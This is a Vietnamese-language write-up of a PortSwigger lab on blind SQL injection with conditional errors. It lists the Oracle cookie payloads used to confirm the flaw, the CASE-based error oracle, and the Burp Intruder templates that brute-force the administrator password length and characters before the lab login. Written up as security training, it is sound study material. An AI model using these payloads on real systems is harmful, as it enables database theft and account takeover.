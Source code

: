 # Write-up: Blind SQL injection with conditional errors

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi sử dụng kĩ thuật kích hoạt lỗi trả về có điều kiện để lấy mật khẩu rồi đăng nhập dưới `administrator`.

### Mục tiêu
- Trích dữ liệu mật khẩu của tài khoản `administrator`.
- Đăng nhập vào hệ thống với tên `administrator`

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**

- Kiểm tra tham số `TrackingId` của header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=CwehTxdaEjLPvUlO' 
    -> Xuất hiện lỗi Internal Server Error
    ```
    ```    
    TrackingId=CwehTxdaEjLPvUlO'' 
    -> Không xuất hiện lỗi
    ```
    - **Kết quả**: xác nhận có lỗi nhưng chưa biết có phải SQL không

- Kiểm tra xem lỗi có phải do SQL gây ra không?
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '')||' 
    -> xuất hiện lỗi Internal Server Error do câu truy vấn sai
    ```
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM dual)||' 
    -> Không xuất hiện lỗi
    ```
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM not_real)||' 
    -> Xuất hiện lỗi Internal Server Error do bảng not_real không có trong db
    ```
    - **Kết quả**: Xác nhận lỗ hổng Blind SQLi và DB là Oracle
        ![lỗi](./images/error.png)
      
- Xác định tồn tại của bảng users 
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM users where rownum = 1)||'
    ```
    - **Kết quả**: Không có lỗi Internal Server Error được trả về, xác nhận có bảng users
      ![users](./images/exist_users.png)
 

- Xác định tài khoản `administrator` tồn tại 
  - Xác định hành vi của web
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=1) then to_char(1/0) else '' end FROM dual)||' 
    -> Xuất hiện lỗi Internal Server Error
    ```
  - Thay đổi giá trị 1=2 
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=2) then to_char(1/0) else '' end FROM dual)||' 
    -> Không xuất hiện lỗi 
    ```
    - **Kết quả**: web có thực hiện truy vấn và trả về lỗi hoặc không khi điều kiện trong `WHEN` thay đổi.
  - Dựa vào hành vi trên thêm điều kiện `username = administrator`
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=1) then to_char(1/0) else '' end FROM users where username='administrator')||' -> tra ve loi internal server error -> xac nhan ton tai user administrator
    ``` 
    - **Kết quả**: Xuất hiện lỗi, xác nhận tồn tài `administrator`
    ![admin](./images/exist_admin.png)

2. **Tạo payload**
- Tạo payload và gửi qua Burp Intruder để xác định độ dài mật khẩu, payload được set như ảnh minh họa
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (length(password)=§1§) then to_char(1/0) else '' end FROM users where username='administrator')||'
    ```
    - **Kết quả**: Xuất hiện lỗi, xác nhận độ dài mật khẩu là 20 kí tự
    ![length](./images/length.png)

- Tạo payload và gửi qua Burp Intruder để xác định mật khẩu bằng bruteforce, payload được set như ảnh
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when substr(password,§1§,1)='§m§' then to_char(1/0) else '' end FROM users where username='administrator')||'
    ```
    - **Kết quả**: xác  nhận mật khẩu `administrator`:`xi8fu15iotkap63y3ldt`

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`xi8fu15iotkap63y3ldt`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    ![login](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi lỗi có điều kiện.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.